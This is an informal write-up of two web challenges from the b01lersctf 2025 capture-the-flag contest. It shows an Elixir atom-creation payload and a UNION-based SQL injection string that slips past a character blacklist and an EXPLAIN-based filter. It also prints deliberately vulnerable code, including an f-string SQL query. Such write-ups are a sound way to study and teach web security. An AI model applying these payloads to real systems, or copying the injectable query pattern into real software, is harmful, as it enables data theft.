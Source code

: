 ```yaml
---
title: 'some b01lersctf 2025 writeups'
description: 'some b01lersctf 2025 writeups'
date: 2025-01-26
tags: ['web', 'ctf', 'writeup']
image: './boilers.png'
authors: ['jp']
---
```


# Background Information
I participated in b01lersctf 2025 with Cosmic Bit Flips. I need to get better at web fr... (lowkey these solves were kinda meaningless lmao)

# Web

## Atom Bomb

> This new atom bomb early warning system is quite strange...

Ok, looking at the frontend we see a button that will tell us the "bomb alerts" with a bunch of random statuses.

![image](./res/atombomb.png)

Ok, so let's do a little source code analysis and try to find the bug. We find a flag function `bomb()`:

```ex
def bomb() do
    flag = case File.read("flag.txt") do
      {:ok, flag} -> flag
      {:error, _} -> "bctf{REDACTED}"
    end

    "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
  end
```

There is a weakness with the `atomizer` function:

```
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

This allows attackers to create arbitrary atoms from user input if string begins with ":". Atoms can also represent function calls, so we basically need to function call to `bomb()`

Well, when testing I ended up developing a payload that led to a very special error message.

```json
{
  "impact": ":bomb"
}
```

```
{"error":"function :bomb.bomb/0 is undefined (module :bomb is not available)"}
```

:think:. Well, the error tells that the bomb function is undefined since there is no :bomb module, we can just change the payload to the following:

```json
{
  "impact": {
    "bomb": ":Elixir.AtomBomb"
  }
}
```

So basically, what happens is that when it accesses this atom, it will do a function call to bomb, but then throw an exception because it was not expecting string. (ok ngl someone else who solved it can explain it much better lol)

```bash
'key :altitude not found in: "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}\\r\\n"\n\nIf you are using the dot syntax, such as map.field, make sure the left-hand side of the dot is a map'
```

## Defense in Depth

> Instead of making AI slop #7749 and applying to YC, making a security product might be a better play. Layers of defenses

Looking at the frontend we just see a bunch of random text, so let's dig into the source code.

So we see a mysql setup with the flag:

```sql
-- Create database and read-only user
CREATE DATABASE IF NOT EXISTS app_db;
CREATE USER IF NOT EXISTS 'b01lers'@'%' IDENTIFIED BY 'redacted';
GRANT SELECT ON app_db.* TO 'b01lers'@'%';
FLUSH PRIVILEGES;

USE app_db;

-- Create users table
CREATE TABLE IF NOT EXISTS users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL,
    email VARCHAR(255) NOT NULL UNIQUE
) ENGINE=InnoDB;

-- Create secrets table
CREATE TABLE IF NOT EXISTS secrets (
    id INT AUTO_INCREMENT PRIMARY KEY,
    `key` VARCHAR(255) NOT NULL,
    value TEXT NOT NULL
) ENGINE=InnoDB;

-- Insert sample data
INSERT IGNORE INTO users (name, email) VALUES
    ('neil', 'freshmen@purdue.eduuu'),
    ('gabe', 'boss@retirement.home'),
    ('kevin', 'frontend@kev.in');

INSERT IGNORE INTO secrets (`key`, value) VALUES
    ('junk', 'Wrong turn baby'),
    ('flag', 'bctf{tungtungtungtungtungsahua}');

-- Verify permissions
SHOW GRANTS FOR 'b01lers'@'%';
```

Ok, and we also have main python backend source code that exposes an sql injection vulnerability which is  `query = f"SELECT * from users WHERE name = '{name}'"`

```python
@app.route('/info/<path:name>', methods=['GET'])
def get_user_info(name):
    if len(name) > 100:
        return jsonify({"Message": "Why the long name? Are you Tung Tung Tung Tung Tung Tung Tung Sahua????"}), 403
    try:
        db = get_db()
        cursor = db.cursor()
    except Exception:
        print(traceback.format_exc())
        return jsonify({"Error": "Something very wrong happened, either retry or contact organizers if issue persists!"}), 500
    
    # Verify that the query is good and does not touch the secrets table
    #ok so this query stuff interacts with the sqlite 
    query = f"SELECT * from users WHERE name = '{name}'"
    for item in BLACKLIST:
        if item in query:
            return jsonify({"Message": f"Probably sus"}), 403
    try:
        explain = "EXPLAIN QUERY PLAN " + query
        cursor.execute(explain)
        result = cursor.fetchall()
        if len(result) > 7:
            return jsonify({"Message": "Probably sus"}), 403
        for item in result:
            if "secrets" in item[3]:
                return jsonify({"Message": "I see where you're going..."}), 403
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({"Message": f"Probably sus"}), 403

    # Now let the query through to the real production db
    
    cursor.close()
    # ohhh fetches the first instance?
    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()[0]
        cur.close()
        return str(records)
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({'Error': "It did not work boss!"}), 400
```

Ok, so we can see it first passes through a bunch of checks before actually being executed and the result being returned to us. The server performs these checks in sqlite3. Here are the checks:

1. If payload is > 100 chars, throw error
2. check if there is any char in blacklist: BLACKLIST = ['(', ')', '-', '#', '%', '+', ';']
3. try EXPLAIN QUERY PLAN our payload, if very complex (len(result) > 7), then throw error. If secrets in the third index of the result, throw error. Finally if the overall EXPLAIN QUERY PLAN fails, also throw error

Finally, if it passes through all these checks, it will open a mysql connection and execute our query and return the result.

Let's craft a sql query that won't throw errors on sqlite3 or mysql and passes all the checks. After some time, I crafted this:

`'OR 1=0 UNION SELECT * FROM secrets AS x WHERE x.key='flag`

And I get the flag:

`(2, 'flag', 'bctf{7h1s_1s_prob4bly_the_easiest_web_s0_go_s0lve_smt_3ls3_n0w!!!}')`